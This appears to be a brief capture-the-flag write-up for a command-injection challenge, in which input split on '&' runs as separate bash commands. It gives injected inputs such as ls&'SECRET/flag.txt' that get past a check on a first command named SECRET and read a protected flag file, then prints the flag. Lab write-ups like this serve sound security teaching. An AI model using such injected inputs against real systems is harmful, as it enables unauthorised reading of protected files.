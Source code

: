 # 🔑 Write-Up

The code is literally an input where we enter a series of commands from bash separated by `&` (i.e., when we enter `&`, it splits the individual commands).
Note that an exception is thrown when the first command is SECRET.
Depending on how many commands are entered, a loop executes each of them individually.

We can simply enter a character escape:

```bash
ls&”SECRET/flag.txt”
```
or if you are on windows

```bash
cd&”SECRET/flag.txt”
```
and the flag will pop up


### 🚩 Flag

```plaintext
CTF_flag{injection_is_nice6781185}
```